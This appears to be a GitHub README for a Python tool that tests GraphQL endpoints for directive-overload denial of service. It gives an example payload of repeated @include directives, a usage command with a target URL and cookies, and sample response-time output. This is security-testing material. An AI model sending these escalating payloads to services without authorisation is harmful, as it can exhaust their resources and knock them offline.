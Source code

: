 # GraphQL-Tester
# Directive_Overload.py
This script is used to test if a web application is vulnerable to Directive Overloads by exponentially adding directives to GraphQL queries, and then plotting the data on a simple bar chart.  
  
Directive overloading occurs when an attacker leverages a large number of directives in a query to overwhelm the server's processing capabilities. Directives are used to modify the behaviour of queries.  

Queries designed to overload the GraphQL engine with excessive directives may lead to a denial-of-service of the entire GraphQL engine, as well as resource exhaustion where a significant amount of computational resources are used to parse and validate the non-existent directives, which can result in memory exhaustion or CPU spikes.  
  
If the GraphQL endpoint does not either:  
- limit directives
- filter on requests with excessive body-size
- utilize execution timeouts  

you should see the response time continously increase with the number of directives.  
> [!NOTE]  
> The script will end if the web app took longer than 60s to respond.  
> The script only supports POST requests and formats each query as JSON within the request body.

> {"query": "query overload {__typename @include(if:true) @include(if:true) @include(if:true)}"}


## Requirements  
cloudscraper  
plotext (optional if not plotting data into bar chart)
```
pip install cloudscraper, plotext
```

## Usage
```
python3 directive_overload.py --url https://{WEBAPP}.com/gql/v2 --cookies 'session=abc123; extra=123abc' --plot-data True
```
```
Overload Count: 6 - Response Time (ms): 401.748
Overload Count: 12 - Response Time (ms): 443.837
Overload Count: 24 - Response Time (ms): 386.138
Overload Count: 48 - Response Time (ms): 417.026
Overload Count: 96 - Response Time (ms): 458.553
Overload Count: 192 - Response Time (ms): 576.506
Overload Count: 384 - Response Time (ms): 467.536
Overload Count: 768 - Response Time (ms): 559.919
Overload Count: 1536 - Response Time (ms): 610.653
Overload Count: 3072 - Response Time (ms): 839.994
Overload Count: 6144 - Response Time (ms): 1451.719
Overload Count: 12288 - Response Time (ms): 2055.501
Overload Count: 24576 - Response Time (ms): 3778.69
Overload Count: 49152 - Response Time (ms): 6874.083
Overload Count: 98304 - Response Time (ms): 14294.663
```
<img width="941" height="341" alt="Image" src="https://github.com/user-attachments/assets/063a7413-ec03-423a-b11a-b438eef6aa7e" />



> [!CAUTION]
> Attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.  

